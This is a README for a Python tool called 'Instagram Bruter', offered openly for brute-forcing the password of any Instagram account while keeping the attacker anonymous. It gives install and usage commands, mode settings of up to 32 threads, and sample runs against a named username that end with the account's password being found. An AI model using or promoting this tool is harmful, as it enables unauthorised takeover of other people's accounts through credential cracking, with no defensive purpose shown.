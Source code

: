 # Instagram Bruter

[![Version](https://img.shields.io/badge/version-v2.1.1-blue.svg)]()
[![Python](https://img.shields.io/badge/python-v3-blue.svg)]()
[![Instagram](https://img.shields.io/badge/chat-Instagram-blue.svg)](https://www.instagram.com/wajahatahmadshamsi/)
<br>

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
python3 install.py
```

### Help

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: ainakhan667
[-] Password: football
[-] Complete: 45.51%
[-] Attempts: 100
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: ainakhan667
[-] Password: hackme
[-] Complete: 62.67%
[-] Attempts: 120
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: ainakhan667
[+] Password: hackme
```
